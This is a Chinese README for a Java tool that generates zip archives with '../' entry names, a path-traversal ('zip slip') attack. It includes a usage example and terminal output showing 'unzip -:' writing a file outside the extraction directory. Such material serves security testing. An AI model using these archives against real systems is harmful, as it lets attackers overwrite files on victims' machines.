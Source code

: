 # zip_path_traversal
java生成包含../目录的压缩包

## 使用
`java -jar generateZip.jar parm1 parm2 parm3`

第一个参数是需要压缩的源路径；第二个参数是压缩文件的目的路径，这边需要将压缩的文件名字加上去;第三个参数为zip压缩包中的目录命名

## Example
`java -jar generateZip.jar "D:\\dir1\\dir2\\dir3\\test.txt"  "D:\\dir1\\dir2\\dir3\\test.zip" "../../"`

在D:\\dir1\\dir2\\dir3\\生成目录结构为../../test.txt的test.zip压缩包，该压缩包解压会跳到D:\\dir1\\test.txt

## 注
linux下使用unzip解压该zip包路径会被限制（5.50版本后）：

```
root@6d943786cd4c:~# unzip 11.zip 

Archive:  11.zip

warning:  skipped "../" path component(s) in ../../../tmp/1.txt

  inflating: tmp/1.txt 
root@6d943786cd4c:~#
```

使用`unzip -: 11.zip`解压被不会被限制

```
root@6d943786cd4c:~# unzip -: 11.zip 

Archive:  11.zip

  inflating: ../../../tmp/1.txt
root@6d943786cd4c:~# ls /tmp
1.txt
root@6d943786cd4c:~#
```
